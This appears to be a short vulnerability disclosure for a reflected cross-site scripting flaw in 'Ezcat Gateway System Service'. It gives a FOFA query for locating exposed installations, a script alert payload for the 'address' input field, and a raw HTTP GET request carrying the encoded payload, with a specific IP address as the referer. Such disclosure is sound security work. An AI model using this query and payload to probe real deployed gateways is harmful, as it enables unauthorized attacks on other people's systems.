

### Ezcat Gateway System Service has XSS vulnerability
#### System homepage
  
#### FOFA search syntax
`"Ezcat Gateway System Service"`
#### Vulnerability screenshot
  

#### Attack methods
1、 The first attack method
Write XSS attack code(`<script>alert (1)</script>`) at`<input type="text" name="address" size="50" style="width: 90%" value="">`
2、 The second attack method
```
GET /?address=%3Cscript%3Ealert%281%29%3C%2Fscript%3E HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://125.227.50.111:8800/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```
#### Real attack cases
1、 The first attack method(Direct input attack)
  
2、 The second attack method(Packet capture modification attack）
  
